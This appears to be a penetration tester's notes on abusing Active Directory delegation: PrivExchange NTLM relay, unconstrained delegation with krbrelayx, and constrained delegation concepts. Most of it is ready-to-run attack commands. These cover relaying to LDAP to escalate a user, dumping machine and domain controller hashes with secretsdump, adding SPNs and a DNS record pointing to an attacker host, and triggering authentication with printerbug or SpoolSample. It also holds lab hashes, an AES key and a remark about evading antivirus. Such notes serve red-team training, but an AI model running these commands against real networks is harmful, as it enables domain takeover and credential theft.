 - Another Method - PrivExchange - Getting Exchange Server to Authenticate to You:
    - Check:
        - `sudo responder -I tun0 -Av`
        - `python3 privexchange.py -d MEGACORP -u snovvcrash -p 'Passw0rd!' -ah <attackerIP> --attacker-page '/test/test/test' exch01.megacorp.local --debug`
    - Exploit:
        - `ntlmrelayx.py -t ldap:- DC01.megacorp.local --escalate-user snovvcrash --no-smb-server --no-wcf-server --no-raw-server --no-dump --no-da --no-acl --no-validate-privs`
        - `python3 privexchange.py -d MEGACORP -u snovvcrash -p 'Passw0rd!' -ah <attackerIP> exch01.megacorp.local --debug`

- **Best Method - krbrelayx.py locally (good w/ antivirus):
    - https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/kerberos/delegation-abuse/kud
    - Doesn't run code on the tgt system we control - good for AV evasion
    - Dump Machine Hash:
        - Remote:
            - `secretsdump.py [prod.corp1.com]/Offsec:lab@192.168.235.75 -ts`
        - Local:
            - `reg.exe save hklm\system system.hive`
            - `reg.exe save hklm\security security.hive`
            - `secretsdump.py -system system.hive -security security.hive LOCAL`
    - Add SPN:
        - `python3 addspn.py -u prod.corp1.com\\APPSRV01\$ -p aad3b435b51404eeaad3b435b51404ee:482b2b2b64ea57683719dc3465524fb8 -s HOST/attacker.prod.corp1.com -q <DCIP>`
        - `python3 addspn.py -u prod.corp1.com\\APPSRV01\$ -p aad3b435b51404eeaad3b435b51404ee:482b2b2b64ea57683719dc3465524fb8 -s HOST/attacker.prod.corp1.com <DCIP>`
        - `python3 addspn.py -u prod.corp1.com\\APPSRV01\$ -p aad3b435b51404eeaad3b435b51404ee:482b2b2b64ea57683719dc3465524fb8 -s HOST/attacker.prod.corp1.com <DCIP> --additional`
    - Add DNS Record pointing to attacker:
        - `python3 dnstool.py -u 'prod.corp1.com\APPSRV01$' -p aad3b435b51404eeaad3b435b51404ee:482b2b2b64ea57683719dc3465524fb8 -r attacker.prod.corp1.com -d <ATTACKER_IP> --action add <DCIP>`
        - confirm (after waiting a minute):  `nslookup attacker.prod.corp1.com <DC01_IP>`
    - Relay:
        - (using AES key of owned computer acct from secretsdump)
        - `sudo python3 krbrelayx.py -aesKey e7b9ad06f6769c1fb7c3e1a84866523fa4bdeb4d28dfd636d742ce3d8cccb209`
    - Trigger:
        - `python3 printerbug.py prod.corp1.com/APPSRV01\$@<DCIP> -hashes aad3b435b51404eeaad3b435b51404ee:482b2b2b64ea57683719dc3465524fb8 attacker.prod.corp1.com`
        - Or:  `SpoolSample.exe CDC01 attacker.prod.corp1.com`
    - Use:
        - `export KRB5CCNAME=`pwd`/'CDC01$@PROD.CORP1.COM_krbtgt@PROD.CORP1.COM.ccache'`
        - `echo '<DCIP> CDC01.prod.corp1.com' >> /etc/hosts`
        - `secretsdump.py CDC01.prod.corp1.com -dc-ip <DCIP> -just-dc -k -no-pass`


### Constrained Delegation (2003)
- *allows access as any domain user (including DA) to the specified backend service (after compromising the frontend service) - can likely lead to RCE depending on the backend service
    - **Altservice option can provide access to any service on the backend box (and almost certainly RCE as DA)
- limits the scope that the service can perform authentication to
    - uses the S4U2Self and S4U2Proxy extensions - 2x TGS are requested (for frontend and backend services) on behalf of the user
- set on the user or computer object through the msds-allowedtodelegateto property by specifying SPNs delegation is allowed to
- **doesn't require user interaction** (unless frontend uses Kerberos auth and we're forwarding the TGS)
    - By compromising an account that has constrained delegation enabled, we can gain access to all the services configured through the msDS-AllowedToDelegateTo property. If the TRUSTED_TO_AUTH_FOR_DELEGATION value is set, we can do this without user interaction.
- **Goal**: pick a user that's in the Domain/Enterprise Admins group for generating the ticket
- *won't work for users that are configured as “sensitive for delegation” (the USER_NOT_DELEGATED attribute is set to true) or for members of the Protected Users group
